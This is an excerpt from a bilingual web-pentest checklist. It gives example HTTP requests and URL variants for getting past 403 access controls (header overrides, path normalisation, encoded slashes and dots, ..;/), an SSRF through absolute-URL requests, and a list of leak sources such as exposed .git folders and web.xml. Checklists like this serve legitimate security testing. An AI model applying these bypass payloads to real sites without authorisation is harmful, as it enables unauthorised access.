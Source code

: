 - HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```
- url character/parameter bypass
    ```bash
    /admin/panel    # ===> 403
    /admin/monitor  # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin   # ===> 403

    web.com/ADMIN       # ===> 200
    web.com/admin/      # ===> 200
    web.com/admin/.     # ===> 200
    web.com//admin//    # ===> 200
    web.com/./admin/./  # ===> 200
    web.com/./admin/..  # ===> 200
    web.com/admin.json  # ===> 200(ruby)

    web.com/%2f/admin/  # ===> 200
    web.com/%2e/admin   # ===> 200
    web.com/%252e/admin # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin       # ===> 302
    web.com/admin..;/   # ===> 200
    ```
- CORS
- Open Redirect

## 传输过程

- COOKIE 注入
- COOKIE 跨站
- 用户凭证明文传输

## 敏感信息泄露

- 目录浏览
- 前端注释/显错
	- 后台路径、数据库地址泄露
	- 前端 package 打包
	- 报错页面信息泄露 (中间件版本、网站路径)
	- 组件版本信息泄露
- 敏感文件
	- 数据库备份、网站备份
	- 日志文件泄露
	- .SVN 源代码泄露
	- .git 源代码泄露
	- DS_Store 文件泄漏
	- WEB-INF/web.xml 信息泄露